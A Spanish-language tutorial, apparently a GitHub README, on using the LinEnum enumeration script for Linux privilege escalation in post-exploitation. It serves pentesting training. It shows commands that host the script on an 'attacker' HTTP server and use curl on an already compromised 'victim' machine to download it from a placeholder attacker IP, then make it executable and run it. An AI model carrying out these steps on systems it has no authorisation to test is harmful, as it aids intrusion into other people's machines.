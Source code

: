 
# Escalada de privilegios en Linux con LinEnum

> LinEnum es un script en bash diseñado para automatizar la recolección de información en sistemas Linux, con el objetivo de identificar posibles vectores para escalar privilegios. A continuación, documentamos cómo obtener y utilizar LinEnum durante una fase de post-explotación.

## 1. Descarga del script

Podemos descargar el script LinEnum directamente desde su repositorio oficial en GitHub utilizando `wget`:

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
````

Este comando descarga el archivo `LinEnum.sh` en el directorio actual.

## 2. Transferencia del script a la máquina víctima

En muchos entornos de pentesting, es común que tengamos acceso a una máquina víctima sin conexión directa a internet, por lo que debemos transferir el script desde nuestra máquina atacante. Para ello, utilizamos un servidor HTTP básico con Python.

### Paso 1: Levantar un servidor HTTP

En nuestra máquina atacante, nos situamos en el directorio donde se encuentra el archivo `LinEnum.sh` y ejecutamos:

```bash
python3 -m http.server 1234
```

Esto levanta un servidor web en el puerto 1234 que servirá los archivos del directorio actual.

### Paso 2: Descargar el script desde la máquina víctima

Desde la máquina víctima (a la que ya tenemos acceso, por ejemplo, mediante una shell reversa), descargamos el script con `curl`:

```bash
curl http://IP_local:1234/LinEnum.sh -o LinEnum.sh
```

Donde `IP_local` es la dirección IP de nuestra máquina atacante (la que ejecuta el servidor HTTP). Este comando guarda el archivo descargado como `LinEnum.sh`.

## 3. Dar permisos de ejecución

Una vez descargado, damos permisos de ejecución al script:

```bash
chmod +x LinEnum.sh
```

## 4. Ejecución del script

Finalmente, ejecutamos el script para comenzar con el reconocimiento del sistema:

```bash
./LinEnum.sh
```

LinEnum realizará múltiples comprobaciones (permisos, configuraciones incorrectas, binarios SUID, cron jobs, procesos en ejecución, etc.) y mostrará los resultados en pantalla. Esta información es fundamental para identificar posibles vectores de escalada de privilegios.

---

